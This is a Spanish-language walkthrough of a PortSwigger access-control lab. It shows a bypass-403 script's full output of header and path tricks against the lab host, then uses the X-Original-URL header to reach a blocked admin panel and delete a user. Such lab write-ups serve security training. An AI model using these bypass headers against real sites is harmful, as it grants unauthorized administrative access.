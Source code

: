 ```yaml
---
title: Access Control Vulnerabilities Lab 10
date: 2024-12-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - URL-based access control can be circumvented
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- URL-based access control can be circumvented

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene un `panel de administración` no autenticado en `/admin`, pero se ha configurado un sistema de `front-end` para bloquear el acceso externo a esa ruta. Sin embargo, la `aplicación de back-end` está construida sobre un `framework` que soporta el encabezado `X-Original-URL`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_1.png)

Si pulsamos en `Admin panel` no nos deja acceder y nos muestra un código de estado `403 Access Denied`. Existe una herramienta llamada `bypas-403` [https://github.com/v0rl0x/bypass-403-updated.git](https://github.com/v0rl0x/bypass-403-updated.git), la cual mediante diferentes `headers` intenta `bypassear` este código de estado. Podemos encontrar `payloads` y otras herramientas en `Hacktricks` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses). Es importante probar con `/admin` y con `admin` debido a que hay varias cabeceras que necesitan una ruta

```
# ./bypass-403.sh https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net /admin
 ____                                  _  _    ___ _____ 
| __ ) _   _ _ __   __ _ ___ ___      | || |  / _ \___ / 
|  _ \| | | | '_ \ / _` / __/ __|_____| || |_| | | ||_ \ 
| |_) | |_| | |_) | (_| \__ \__ \_____|__   _| |_| |__) |
|____/ \__, | .__/ \__,_|___/___/        |_|  \___/____/ 
       |___/|_|                                          
                                               By Iam_J0ker
./bypass-403.sh https://example.com path
 
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/%2e//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/.
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net///admin//
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/.//admin/./
200,3114  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Original-URL: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Custom-IP-Authorization: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: http://127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: 127.0.0.1:80
200,10707  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net -H X-re
write-url: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%20
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%09
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin?
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.html
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/?anything
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin#
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H Content-Length:0 -X POST
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/*
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.php
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.json
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin  -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Host: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin..;/
000,0  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin;/
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-Host: 127.0.0.1
Way back machine:
{
  "available": null,
  "url": null
}
```

Si `capturamos` la `petición` y aplicamos la cabecera `X-Original-Url: /admin`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_2.png)

Hacemos click derecho, pulsamos sobre `Show response in browser` y accedemos a un panel administrativo

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_3.png)

Si intentamos `eliminar` a un `usuario` no nos dejará y nos `redirigirá` a `https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/admin/delete?username=carlos`. Debemos realizar la `petición` de esta forma para poder `eliminar` al usuario `carlos`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_4.png)
